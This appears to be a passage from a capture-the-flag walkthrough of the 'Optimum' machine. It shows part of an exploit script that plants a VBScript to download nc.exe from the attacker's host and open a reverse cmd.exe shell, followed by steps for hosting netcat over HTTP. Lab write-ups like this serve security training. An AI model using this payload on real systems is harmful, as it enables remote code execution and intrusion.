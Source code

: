 ```
	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```

## Low Privilege Shell on Target Host

Looking at the usage on the top of the source code, it is pretty simple. There is also an EDB note stating that we need to be using a web server hosting netcat. Seems simple enough, so let's do it. Let's first download the file and put it in a directory for this machine to stay organized. Next all we need to do is be using a `HTTP Server` on port `80` that is hosting a `Netcat binary`. Kali Linux already comes with Windows binaries in the `/usr/share/windows-binaries` directory so let's change our directory into that.  Your directory should look something like this:

```
root@kali-[~/htb/optimum/exploits]cd /usr/share/windows-binaries                                                                                                                                                                                                                                       
root@kali-[/usr/share/windows-binaries]ls -lah
total 1.9M
drwxr-xr-x  7 root root 4.0K May 28 18:40 .
drwxr-xr-x 14 root root 4.0K May  1 17:10 ..
drwxr-xr-x  2 root root 4.0K May  1 17:09 enumplus
-rwxr-xr-x  1 root root  52K Jul 17  2019 exe2bat.exe
drwxr-xr-x  2 root root 4.0K May  1 17:09 fgdump
drwxr-xr-x  2 root root 4.0K May  1 17:09 fport
-rwxr-xr-x  1 root root  23K Jul 17  2019 klogger.exe
drwxr-xr-x  2 root root 4.0K May  1 17:09 mbenum
drwxr-xr-x  4 root root 4.0K May  1 17:09 nbtenum
-rw-r--r--  1 root root  45K May 28 18:40 nc64.exe
-rwxr-xr-x  1 root root  58K Jul 17  2019 nc.exe
-rwxr-xr-x  1 root root 304K Jul 17  2019 plink.exe
-rwxr-xr-x  1 root root 688K Jul 17  2019 radmin.exe
-rwxr-xr-x  1 root root 356K Jul 17  2019 vncviewer.exe
-rwxr-xr-x  1 root root 302K Jul 17  2019 wget.exe
-rwxr-xr-x  1 root root  65K Jul 17  2019 whoami.exe
```
